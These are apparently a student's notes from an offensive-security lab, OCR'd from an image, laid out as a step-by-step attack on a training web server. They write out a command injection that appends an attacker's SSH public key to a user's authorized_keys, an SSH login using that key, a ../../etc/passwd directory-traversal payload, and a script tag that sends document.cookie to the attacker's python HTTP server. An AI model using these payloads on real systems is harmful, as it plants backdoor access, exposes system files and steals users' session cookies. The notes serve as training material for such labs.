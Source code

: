 # on Firefox:
```
; echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8Ny133z4AEchrClekmxkUtlWrflXcGT8JBygIkkm/Cy7AyZ+U/Sx9YWXrYft9R0GRE/CcJpQfJJhPp0juq+Zc+vYQ73bdOf3duEZjPRTzMiibq8wOpiguT5kJ1jBs6WYqdyuWUO61Re1b1rFAcZsxz26t3S+8+ycYWyYTDthO5ugSXdXmpy9PIHUcb5ogvT0wpIOxLaVyZhlzm6CadP7iklvJAXRXqDeReKU2XdCPpKZb3awt0g4SU7d4Z6od5wR1xGgYwCpAfCpttUnyk5cgVr2YGjvpY4ExkMYSFvZmA2ENXH/3WDpx3I31/DBeGSbIAOqvTUIMGy3kmxQDKp/p student@lin-ops" >> /home/billybob/.ssh/authorized_keys
```
-----------------------------------------------------------------------------------------------------------------------------------------

# on lin-ops
* make a new socket, and ssh into the web server, and loggon
- sednig private key to encrypt the begging of the conversation. This allows the client to authenticate.
 
```
 ssh -i .ssh/id_rsa -MS /tmp/web billybob@127.0.0.1 -p 1111
 ```
* Congrats, you did a ssh  masquerade

-----------------------------------------------------------------------------

# on web server: 
* Directory Traversal via HTTP POST/GET methods:
```
http://10.50.28.11/path/pathdemo.php
```
* POST method: It cat's so try
```
../../../../../etc/passwd
```
^ do at least 8 times to be safe

* GET method: interacting with radio buttons, changing the url on the website.
	
--------------------------------------------------------------------------------------

# on lin-ops:
	* make a http server via python3:
```
python3 -m http.server
```
----------------------------------------------

* then put script on webpage
	
```
<script>document.location="http://10.50.27.61:8000/?" + document.cookie;</script>
```
*    lin-ops {IP}10.50.27.61:8000 ^^^^^^
					

